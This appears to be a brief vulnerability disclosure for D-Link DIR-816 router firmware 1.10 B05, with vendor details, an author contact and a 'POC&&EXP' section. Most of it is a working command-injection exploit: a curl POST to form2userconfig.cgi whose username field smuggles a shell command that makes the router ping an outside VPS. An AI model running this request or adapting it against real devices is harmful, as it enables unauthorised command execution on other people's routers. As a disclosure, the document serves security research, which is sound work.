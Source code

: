 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816


##### POC&&EXP

input vps ip
```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=Admin';ping vps;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send"
```
 Now it will ping my VPS address 

